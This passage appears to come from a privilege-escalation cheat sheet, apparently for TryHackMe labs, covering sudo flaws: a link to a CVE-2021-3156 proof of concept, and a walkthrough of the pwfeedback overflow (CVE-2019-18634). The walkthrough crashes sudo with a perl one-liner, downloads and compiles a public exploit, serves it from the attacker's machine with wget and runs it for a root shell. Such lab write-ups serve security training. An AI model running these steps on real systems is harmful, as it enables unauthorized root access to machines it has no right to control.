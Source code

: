     2. **PoC**

        See **[this repository](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156){:target="_blank"}{:rel="noopener"}**.

2. **Pwfeedback**

    1. **Check Enabling the Pwfeedback in /etc/sudoers**

        If so, when running sudo command and inputting password, asterisk will be displayed.  
        You can make it the buffer overflow.

        ```sh
        cat /etc/sudoers

        # -------------------------------------------

        ...
        Defaults pwfeadback
        ...
        ```

    2. **Input Long String to Password**

        ```sh
        perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
        # [sudo] password for tryhackme: Segmentation fault
        ```

    3. **Download a Payload and Compile in Local Machine**

        ```sh
        wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
        gcc -o exploit exploit.c
        ```

    4. **Transfer the Payload to Remote Machine**

        ```sh
        # In local machine
        python3 -m http.server 8000

        # In remote machine
        wget http://<local-ip>:8000/exploit
        ```

    5. **Execute the Payload in Remote Machine**

        After that, you'll get a root shell.

        ```sh
        chmod 700 ./exploit
        ./exploit
        ```